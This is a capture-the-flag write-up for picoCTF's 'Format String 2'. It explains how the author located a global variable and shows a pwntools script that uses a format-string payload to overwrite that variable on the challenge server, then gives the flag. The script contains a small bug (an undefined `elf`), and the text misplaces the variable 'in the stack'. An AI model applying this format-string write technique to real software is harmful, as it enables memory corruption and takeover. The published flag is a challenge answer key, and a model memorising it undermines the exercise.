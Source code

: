 # Format String 2

## Challenge Description

![alt text](./Images/FM2.png)

## Approach

This was a very challenging challenge for me and it took me an entire day to solve this.

So I connected to the server via netcat and got this:

![alt text](./Images/FS2(1).png)

On opening the C code for this program I found that the variable sus which is globally declared is being compared with `0x67616c66` which is flag in little endian format.

![alt text](./Images/FS2(2).png)

So to get the flag, we need to change the value of sus which is in the stack into `0x67616c66`

Using the command `objdump -D -M intel vuln` I found that the sus variable is at the address `0x404060`

Also we've been giving a hint that `pwntools` would be very helpful in this level.

So I went through the pwntools documentation and also found this useful page : https://docs.pwntools.com/en/dev/fmtstr.html


After tons of failed attempts, this is the script that finally worked:

``` python

  1 from pwn import *
  2
  3 context.binary = ELF('./vuln')
  4
  5
  6 def send_payload(payload):
  7     p = elf.process()
  8     p.sendline(payload)
  9     return p.recvall()
 10
 11 offset = FmtStr(send_payload).offset
 12
 13 p = remote('rhea.picoctf.net', 59103)
 14 payload = fmtstr_payload(offset, {0x404060: 0x67616c66})
 15 p.sendline(payload)
 16 info(p.recvall())
 17 p.close()

 ```

 Okay so I'll summarize what's happening here:

 1. We load the binary for the `vuln` program and this lets us get info about the binary.

 2. Then I created a function that takes in our payload and recieves all output from the binary and returns that output

 3. FmtStr class automatically finds the offset in format string. `Offset is basically how many pop operations happen before our input is reached on the stack`

 4. I sent my payload at the offset I found with the `target address: 0x404060` and `target value: 0x67616c66`

 5. We send the payload and get all the output.


 Interestingly, when I used `print` instead of `info` I wasn't able to get the flag, but when I used info it worked after giving a lot of garbage values. I'm not really sure why this happened.

 ![alt text](./Images/FS2(3).png)

 ## My learning

 1. pwntools and fmtstr in pwntools

 ## Flag

 `picoCTF{f0rm47_57r?_f0rm47_m3m_5161A699}`